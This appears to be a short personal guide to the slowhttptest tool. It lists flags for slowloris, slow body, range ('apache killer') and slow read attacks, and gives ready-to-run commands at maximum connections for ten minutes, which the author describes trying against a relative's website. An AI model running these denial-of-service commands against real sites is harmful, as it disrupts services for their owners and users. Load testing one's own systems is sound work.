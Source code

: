 Tools and commands to use slowhttptest

so basically you will need to type this for everything you want to do

slowhttptest -(enter the test type you want) -u (enter the http:// address you
want to test)

this test will use the default of a slow loris attack aka it loads the header
info super slow.

If you want to use more commands these are the basics

\-H slow loris (Header file)

\-B slow body attack

\-R range attack aka apache killer

\-X slow reader

\-c the amount of connections, in this app the default is 50 and max is 65539

\-u the url address you want to stress test

\-r the rate at which connections are opened

\-l the amount of seconds the stress test will take place

\-k the amount of times the port is able to request back for the same info

Here are some shortcuts that I have pre designed

Slow read attack, attacks dads website, max amount of ports, length of ten
minutes, opens 600 ports a second. Seems to have very very minimal closed ports
on dads website.

slowhttptest -X -u http://website.com -c 65539 -l 600 -r 600

Body Attack, same as above but large amounts of ports lost even with the
increase in ports per second

slowhttptest -B -u http://website.com -c 65539 -l 600 -r 600

Header attack, minimal port loss but still not as good as slow reader

slowhttptest -H -u http://website -c 65539 -l 600 -r 600
